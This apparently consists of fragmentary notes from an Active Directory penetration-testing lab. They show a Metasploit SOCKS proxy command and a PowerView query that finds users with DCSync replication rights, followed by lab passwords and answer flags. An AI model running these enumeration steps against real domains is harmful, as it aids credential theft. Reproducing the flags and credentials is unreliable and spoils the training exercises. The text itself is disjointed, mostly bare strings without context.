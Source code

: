 use auxiliary/server/socks_proxy
run

tpetty:Sup3rS3cur3D0m@inU2eR
```shell
shell
```

```shell
powershell

$sid = Convert-NameToSid tpetty

Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

```

Sup3rS3cur3D0m@inU2eR
aud1t_gr0up_m3mbersh1ps!

BR086

Welcome1

netdb:D@ta_bAse_adm1n!

```shell-session
s3imp3rs0nate_cl@ssic
```

exc3ss1ve_adm1n_r1ights!

CT059charlie1

```shell-session
acLs_f0r_th3_w1n!
```